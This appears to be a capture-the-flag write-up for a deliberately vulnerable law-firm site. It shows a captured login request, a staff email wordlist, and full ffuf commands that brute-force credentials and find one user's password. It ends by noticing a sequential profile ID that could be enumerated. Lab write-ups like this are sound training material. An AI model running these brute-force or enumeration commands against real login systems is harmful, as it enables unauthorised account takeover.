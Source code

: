 I'm going to try to fuzz both the email and the passwords, but first, I have to try to login and see what the request looks like in ZAP... or in dev tools?

```
email=foo&password=bar
```

and create the email wordlist

```
yusef.mcclain@vulnlawyers.co.uk
shayne.cairns@vulnlawyers.co.uk
eisa.evans@vulnlawyers.co.uk
jaskaran.lowe@vulnlawyers.co.uk
marsha.blankenship@vulnlawyers.co.uk
```

Then the command

```shell
ffuf -w ./vulnlawyer_emails.txt:EMAIL -w ./wordlists/passwords.txt:PASS -X POST -d "email=EMAIL&password=PASS" -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://vulnlawyers.co.uk/lawyers-only-login -fr 'Invalid Email/Password combination'
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 24ms]
    * EMAIL: jaskaran.lowe@vulnlawyers.co.uk
    * PASS: summer
```

This is becoming fun!

Logging in gives us a new token cookie:

```
set-cookie: token=7BCC07AAE3CCD9CD66223DF6D6932582;
```

On the profile page, trying to edit the name or email gives a "Updates are currently disabled" and the params seem to be sanitized.

On the main Portal page there's a message that says "Changes can only by performed by case manager," and that the case is "Managed by" Shayne Cairns. I this we should use the large password list to try to brute force their password.

```shell
ffuf -w ./wordlists/passwords-large.txt -X POST -d "email=shayne.cairns@vulnlawyers.co.uk&password=FUZZ" -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://vulnlawyers.co.uk/lawyers-only-login -fr 'Invalid Email/Password combination'
```

As I'm brute forcing, I just realized the the profile page url is:

```
http://vulnlawyers.co.uk/lawyers-only-profile-details/4
```
